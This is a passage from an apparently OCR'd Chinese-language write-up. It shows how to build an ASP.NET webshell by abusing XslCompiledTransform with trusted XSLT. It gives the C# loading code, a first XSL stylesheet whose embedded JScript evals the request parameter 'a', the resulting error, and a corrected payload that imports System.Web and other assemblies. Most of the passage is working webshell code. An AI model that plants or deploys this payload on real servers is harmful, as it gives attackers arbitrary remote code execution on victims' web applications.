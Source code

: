 由于此类不能引入额外的程序集，所以并没有什么使用价值。

XslCompiledTransform为微软推荐使用的类，其调用方法与XslTransform大致相同：

```
XmlDocument xmldoc=new XmlDocument();
xmldoc.LoadXml(xml);
XmlDocument xsldoc=new XmlDocument();
xsldoc.LoadXml(xslt);
XslCompiledTransform xct=new XslCompiledTransform();
xct.Load(xsldoc,XsltSettings.TrustedXslt,new XmlUrlResolver());
xct.Transform(xmldoc,null,new MemoryStream());

```

由于asp.net提供了静态变量[System.Web]System.Web.HttpContext::Current用于表示当前的HTTP请求上下文，所以不需要像asp中进行字符串传递。构造以下xsl进行尝试：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    function xml() {eval(System.Web.HttpContext.Current.Request.Item['a'],'unsafe');}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
</xsl:stylesheet>

```

访问之，可得到一个错误信息：

```
未能找到类型“System.Web.HttpContext.Current.Request.Item”，是否缺少程序集引用? 

```

很明显缺少了程序集引用，查找msdn得到说明：

```
默认情况下引用下列两个程序集：
    System.dll
    System.Xml.dll
    Microsoft.VisualBasic.dll（如果脚本语言为 VB）
可以使用 msxsl:assembly 元素导入其他程序集。

```

于是添加WebShell所必需的几个程序集，得到：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="JScript" implements-prefix="zcg">
    <msxsl:assembly name="mscorlib, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Data, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"/>
    <msxsl:assembly name="System.Configuration, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    <msxsl:assembly name="System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"/>
    function xml() {eval(System.Web.HttpContext.Current.Request.Item['a'],'unsafe');}
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml()"/>
  </xsl:template>
```